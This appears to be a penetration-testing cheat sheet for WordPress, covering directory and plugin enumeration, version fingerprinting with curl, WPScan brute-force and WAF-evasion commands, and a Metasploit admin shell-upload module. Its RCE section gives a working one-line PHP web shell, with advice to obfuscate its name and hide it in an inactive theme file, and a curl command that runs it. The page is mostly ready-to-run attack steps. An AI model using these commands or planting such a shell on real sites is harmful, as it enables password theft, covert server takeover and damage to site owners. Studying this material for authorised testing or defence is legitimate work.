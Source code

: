 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WordPress

## General Information

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## WPScan

> For vulnerability scanning get a token from [WPScan](https://wpscan.com/).

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/wpscanteam/wpscan" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
{% endtab %}
{% endtabs %}

## Manual

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
\*Plugin version requires Directory listing to be enabled.
{% endhint %}

## RCE

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

## Metasploit

```bash
msfconsole -q
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

{% tabs %}
{% tab title="Launch Metasploit" %}
```bash
msfconsole -q
```
{% endtab %}

{% tab title="Use MSF's module*" %}
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
\*Make sure to `set VHOST`!
{% endhint %}
